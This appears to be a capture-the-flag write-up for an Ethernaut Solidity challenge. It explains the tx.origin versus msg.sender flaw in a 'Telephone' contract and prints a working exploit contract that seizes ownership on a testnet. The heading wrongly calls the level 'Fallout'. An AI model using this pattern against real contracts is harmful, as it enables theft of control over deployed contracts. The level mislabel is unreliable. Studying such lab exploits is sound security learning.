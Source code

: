 # Ethernaut - Level 2 - Fallout

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Objectives:
```
Claim ownership of the contract below to complete this level.
```

This contract is pretty small, there is only one function that we can call, the changeOwner function.
This function performs a check, if tx.origin is different from the msg.sender then we can update the value of owner.

## Cool, but what's the difference between tx.origin and msg.sender???

msg.sender is the address of the contract/user that had called the function, instead tx.origin is the address of the *user* that had started the call-chain.

Eg: User A --> Contract B.execute() --> Contract C.somefunction()

In this case we have user A that calls execute on contract B that calls somefunction on contract c.
In this case, tx.origin = User A and msg.sender = address(Contract B).

So, to exploit this, we need to deploy a smart contract that calls changeOwner on contract Telephone.

My exploit contract:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;


interface ITelephone {
    function changeOwner(address _owner) external ;
}

contract Exploit {

    // I need to deploy this to the Rinekby testnet --> the same as ethernaut in order to exploit the challenge's contract
    address TARGET_CONTRACT = 0xA082d3B2706d055aa3843a3342157BbF05bD10C7;
    address PLAYER = 0xD51DF6592e7d3c5EE08cCd029Ff444a3c9255810;
    //I need the contract's ABI --> interfaces like in Java
    function OwnIt() public {
        ITelephone(TARGET_CONTRACT).changeOwner(PLAYER);
    }
        
}
```

In order to call the changeOwner function on Telephone contract we need his ABI (Application Binary Interface) --> we need the function signature of his methos changeOwner, and we wrap it inside an interface.

After we've called the OwnIt function, we'll be the owner of the Telephone contract.
